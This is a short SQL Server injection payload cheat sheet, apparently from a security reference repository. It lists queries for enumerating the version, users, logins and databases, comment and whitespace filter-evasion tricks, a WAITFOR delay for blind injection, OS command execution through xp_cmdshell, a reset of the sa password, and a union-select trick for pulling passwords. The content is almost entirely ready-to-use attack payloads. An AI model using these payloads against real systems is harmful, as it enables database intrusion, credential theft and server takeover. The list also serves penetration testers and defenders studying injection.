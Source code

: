 SQL Server Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- Current User
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- List User
    - ``SELECT name FROM master..syslogins``
- Current Database
    - ``SELECT DB_NAME()``
- List Database
    - ``SELECT name FROM master..sysdatabases``
- Command
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
